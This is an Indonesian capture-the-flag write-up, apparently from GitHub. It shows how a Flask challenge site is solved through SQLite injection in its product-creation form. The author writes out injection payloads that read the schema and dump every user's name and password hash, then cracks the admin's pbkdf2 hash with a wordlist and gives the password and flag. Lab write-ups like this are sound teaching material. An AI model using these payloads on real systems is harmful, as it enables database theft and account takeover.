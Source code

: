 ![image](https://github.com/aldisakti2/Writeup/assets/106227122/2ee11b2c-c2ea-47a9-ab46-a23250d52f28)![image](https://github.com/aldisakti2/Writeup/assets/106227122/ad7498a1-3944-46d4-b45b-38cd31f730b5)

**Pada chall kali ini kita diberikan wordlist (pasti brute-force) namun tidak boleh brute-force di login, berarti ada hal lain :)**

**Index**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/feee17a4-b27a-487e-ba81-82d688509ff4)

**Ada tiga menu yaitu _Products, Create dan Admin_**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/2234c93f-bfd0-4392-9a20-bf24b0750813)

**Yang menarik disini kita diberikan sebuah cookie**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/88b8e4dd-f0ee-4510-b792-fbac2f495d7f)

**Dengan bantuan flask-unsign kita tahu bahwa web ini menggunakan sqllite**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/56b39df8-af90-4a10-940e-51a3aebd2ca6)

**Kita lihat di menu _create_, disini kita bisa menginputkan data**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/39362e37-1bdd-4505-afa3-50ee148525be)

**Aku akan mencoba SQLi versi SQLite : '||(sqlite_version())||' dan Gotcha!**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/0a43bca8-f248-452d-98ec-afdea0fb0c9d)

**Cek Query dengan : ' || (SELECT sql FROM sqlite_master WHERE type='table') || '**
![image](https://github.com/aldisakti2/Writeup/assets/106227122/de26db9f-c337-4a5c-9576-912d45cb186b)

**Sekarang kita tahu ada tabel user yang berisi id,name,password**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/de50ea1b-45f0-44ea-a81c-285e9401aa6b)

**Sekarang ke bagian paling menarik yaitu mengambil seluruh data user : '||(SELECT GROUP_CONCAT(id || ',' || name || ',' || password, '; ') FROM users)||'**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/7e93442a-f6eb-4992-87a1-0534d3116d9a)

**Ternyata di enkripsi menggunakan pbkdf2-sha256 website_admin_account,pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57**
**Kita bisa men-decrypt dengan (https://github.com/AnataarXVI/Werkzeug-Cracker) dan wordlist yang diberikan**


![image](https://github.com/aldisakti2/Writeup/assets/106227122/823d38af-c240-4de3-806d-2fc8cd765906)

**Aku membuat script sendiri agar lebih mudah bagiku melakukan debug**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/390f2ac7-1ec2-4490-b8f2-e89f126d76b9)

**User     : website_admin_account**
**Passwprd : ntadmin1234**

**Login Admin dan kita dapat flagnya**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/1cceedf6-578a-4df3-a0d9-7437b63e9207)

**Flag : flag{87257f24fd71ea9ed8aa62837e768ec0}**
